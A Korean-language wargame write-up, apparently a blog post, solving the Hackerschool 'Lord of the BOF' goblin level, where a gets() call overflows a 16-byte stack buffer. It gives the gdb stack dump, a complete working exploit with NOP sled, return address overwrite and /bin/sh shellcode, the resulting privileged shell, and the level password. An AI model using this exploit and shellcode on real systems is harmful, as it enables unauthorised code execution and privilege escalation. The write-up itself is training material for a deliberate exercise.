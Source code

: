 ```yaml
---
layout: post
title: "[Wargame]  해커스쿨 BoF LEVEL3 (cobolt -> goblin) : small buffer + stdin"
date: 2015-11-01 17:30
comments: true
categories:  wargame
tags: [bof]
---
```


- id = cobolt 
- pw = hacking exposed

<!-- more -->

## 문제 : goblin.c

16 bytes small buffer 이며, 외부 입력을 command line argument 가 아니라 stdin 으로 받는 `gets()` 가 사용됨.

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

## GDB 디버깅 시 stdin 입력하는 방법

이번 문제는 stdin 으로 입력을 넣는데, gdb 로 어떻게 디버깅을 해야하는지 몰랐다.

[gdb - debugging with piped input (not arguments)](http://stackoverflow.com/questions/8422259/gdb-debugging-with-piped-input-not-arguments)

`stdin` 입력을 추가 파일로 저장을 한 후 gdb 실행 한 다음에 `run < input_file` 형식으로 실행을 한다.

```bash
gdb ./vuln_prog
run < filename_with_input
```

Stack 확인하기 위하여 `AA` 을 20bytes 를 넣고

```bash
[cobolt@localhost cobolt]$ python -c 'print "\x90"*20' > test.in

[cobolt@localhost cobolt]$ xxd test.in
0000000: 9090 9090 9090 9090 9090 9090 9090 9090  ................
0000010: 9090 9090 0a                             .....
```

GDB 로 붙여서 LR 을 확인해보자. `0xbffffb1c` 에 LR 에 저장된 위치임. 이 값에 뒤에 넣은 shellcode 로 jump 할 위치로 바꾸어주면 된다.

```bash
(gdb) b *main+15
Breakpoint 2 at 0x8048407: file goblin.c, line 10.
(gdb) r < test2.in
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/cobolt/./goblin2 < test2.in

Breakpoint 2, 0x8048407 in main () at goblin.c:10
10          gets(buffer);
(gdb) x/50x $esp
0xbffffb04:     0xbffffb08      0x90909090      0x90909090      0x90909090
0xbffffb14:     0x90909090      0x90909090      0xbffffb34      0x90909090
0xbffffb24:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb34:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb44:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb54:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb64:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb74:     0x90909090      0x90909090      0x90909090      0x90909090
0xbffffb84:     0x315e18eb      0x074688c0      0x89087689      0x0bb00c46
0xbffffb94:     0x4e8d1e8d      0x0c568d08      0xe3e880cd      0x2fffffff
0xbffffba4:     0x2f6e6962      0xbf006873      0xbffffded      0xbffffdf8
0xbffffbb4:     0xbffffe09      0xbffffe1a      0xbffffe22      0x00000000
0xbffffbc4:     0x00000003      0x08048034
```

## Exploit

```bash
NOP (20) + LR (4) + "\x34\xfb\xff\xbf" + NOP(100) + ShellCode

`python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"'`
```

여기서 또 하나의 문제는 미리 만들어 놓은 값을 `stdin` 으로 실행파일에 넣어주는 형식이다.  (사실 실제로 해보면 이런 내용이 가장 어렵다. 해보지 않으면 절대 알 수 없는 내용이다.)

### stdin 입력

```bash
(python -c 'print "XXXXX"';cat)|./goblin
```

### command line 입력

```bash
./executable `python -c 'print "XXXXX"'`
```

## 최종 실행

```bash
[cobolt@localhost cobolt]$ /bin/bash2
[cobolt@localhost cobolt]$ (python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"';cat)|./goblin
4^1F嵬bin/sh
id
uid=502(cobolt) gid=502(cobolt) euid=503(goblin) egid=503(goblin) groups=502(cobolt)

my-pass
euid = 503
hackers proof
```

### Final exploit

```bash
(python -c 'print "\x90"*20 + "\x34\xfb\xff\xbf" + "\x90"*100 + "\xeb\x18\x5e\x31\xc0\x88\x46\x07\x89\x76\x08\x89\x46\x0c\xb0\x0b\x8d\x1e\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe3\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"';cat)|./goblin
```